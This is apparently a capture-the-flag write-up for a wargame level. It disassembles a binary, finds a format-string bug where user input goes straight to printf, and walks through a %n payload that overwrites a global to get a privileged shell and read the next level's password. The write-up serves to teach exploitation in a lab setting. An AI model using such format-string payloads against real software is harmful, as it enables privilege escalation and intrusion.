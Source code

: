 # Level3

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There is system() :)

```nasm
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218                            // Allocate a 536 bytes buffer
   0x080484ad <+9>:	mov    eax,ds:0x8049860                     // Move into eax stdin
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax            // Move that on esp+0x8 
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200          // Move size 0x200 = 512
   0x080484be <+26>:	lea    eax,[ebp-0x208]                    // Load into eax whatever is a ebp-0x208 (or esp+0x10)
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax                // And move it back on top of the stack
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>              // Call fgets
   0x080484cc <+40>:	lea    eax,[ebp-0x208]                    // Load into eax whatever is a ebp-0x208 (or esp+0x10)
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax                // And move it back on top of the stack     
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>             // Then call printf
   0x080484da <+54>:	mov    eax,ds:0x804988c                   // Move into eax an empty string ("") (maybe)
   0x080484df <+59>:	cmp    eax,0x40                           // Compare that with 0x40 (64)
   0x080484e2 <+62>:	jne    0x8048518 <v+116>                  // If not equal go to "leave" instruction
   0x080484e4 <+64>:	mov    eax,ds:0x8049880                   // Move into eax stdout
   0x080484e9 <+69>:	mov    edx,eax                            // And move it edx
   0x080484eb <+71>:	mov    eax,0x8048600                      // Move into eax the string "Wait what?!\n"
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx            // Move edx as an argument in stack
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc            // Move that as third argument
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1            // Move 1 as second argument
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax                // Move the string in eax as first argument
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>             // Call fwrite
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d          // Move "/bin/sh" on top of the stack
   0x08048513 <+111>:	call   0x80483c0 <system@plt>             // Then call system
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp                                  // All main does is call the v function
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

Try to execute system() by just jumping to it…

```nasm
(gdb) x/s 0x804860d
0x804860d:	 "/bin/sh"
(gdb) jump *0x080484e4
Continuing at 0x80484e4.
Wait what?!
$ cat /home/user/level4/.pass
cat: /home/user/level4/.pass: Permission denied
```

We indeed get a shell, but we can’t read the file, this is a **security feature of `gdb`** actually, so we should try the normal way !
`fgets` isn’t unsafe like `gets` so the exploit isn’t there

However: 

```nasm
0x080484c7 <+35>:	call   0x80483a0 [fgets@plt](mailto:fgets@plt)              // Call fgets
0x080484cc <+40>:	lea    eax,[ebp-0x208]                  // Load into eax whatever is a ebp-0x208 (or esp+0x10)
0x080484d2 <+46>:	mov    DWORD PTR [esp],eax              // And move it back on top of the stack
0x080484d5 <+49>:	call   0x8048390 printf@plt             // Then call printf
```

This part is interesting :

- We get user input from `fgets` on `stdin`
- And pass that directly to `printf`

This is known as a format string vulnerability :

`printf` is called with whatever we input in `stdin` and doesn’t check for format specifier, meaning we can read and write to any location in memory ! 
We can then trigger the `cmp` check :

```nasm
0x080484da <+54>:	mov    eax,ds:0x804988c                   // Move into eax an empty string ("") (maybe)
0x080484df <+59>:	cmp    eax,0x40                           // Compare that with 0x40 (64)
```

Which will then make the program execute `system` with `/bin/sh` and hopefully this time with the correct rights !

So we want to write 64 into `0x804988` 

When we call `printf` without a format string, it will read arguments from the stack in order, but where would our input be located in the stack ?
The stack should look something like that :

```nasm
[return address]
[saved frame pointer]
[local variables]
[format string pointer] <-- User input
```

In order to check we will craft a payload with a recognizable pattern : 

The %x format specifier will print whatever is on the stack in hexadecimal

```nasm
level3@RainFall:~$ echo -e "\x8c\x98\x04\x08AAAA%x %x %x %x %x %x %x" | ./level3
AAAA200 b7fd1ac0 b7ff37d0 804988c 41414141 25207825 78252078
level3@RainFall:~$
```

We notice in 4th position the address we target and in 5th position our pattern AAAA = 41414141

That means we need to target the 4th position and put in it 64. Our command should look like this :

```bash
echo -e "\x8c\x98\x04\x08%60c%4\$n" | ./level3
```

Where we have first : `\x8c\x98\x04\x08` the address that is 4 bytes long. Then `%60c` 60 more characters to bring the total to 64 as needed. And finally use `%n` (prints out how many characters were written so far) in combination with the `4$` specifier to target the 4th position in the stack : `%4\$n` we need to escape the `$` symbol as we are not trying to read an environment variable.

And of course we maintain the connection with the shell using `cat` :

```bash
level3@RainFall:~$ (echo -e "\x8c\x98\x04\x08%60c%4\$n"; cat) | ./level3

Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
